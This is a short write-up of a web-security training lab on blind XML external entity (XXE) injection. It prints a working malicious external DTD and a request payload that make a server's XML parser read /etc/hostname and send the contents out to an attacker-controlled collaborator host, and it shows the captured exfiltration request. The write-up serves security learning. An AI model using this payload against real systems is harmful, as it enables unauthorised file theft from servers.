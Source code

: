 # Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD
## Description
This was a pretty cool trick. Basically, we're using External DTD entities to build a dynamic XML parameter that extract data from the file system and injects that data into the out-of-band request sent to the collaboration server.


## Solution
Prepare server hosting a malicious DTD. For example:
`https://domain.com/malicious.dtd` hosting the following content:
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://g2jpkklwqsbv96hs0odrqokr5ibazz.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```

Payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac891fe91eecf58680755c26010300c0.web-security-academy.net/malicious.dtd"> %xxe;]>
<stockCheck>
  <productId>4</productId>
  <storeId>&xxe;</storeId>
</stockCheck>
```

Once executed, the XML parser will connect to the out-of-band collaboration server, sending a GET request similar to this where `0f021ab28f7c` is the content of `/etc/hostname`
```
GET /?x=0f021ab28f7c HTTP/1.1
User-Agent: Java/12.0.2
Host: g2jpkklwqsbv96hs0odrqokr5ibazz.burpcollaborator.net
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive

```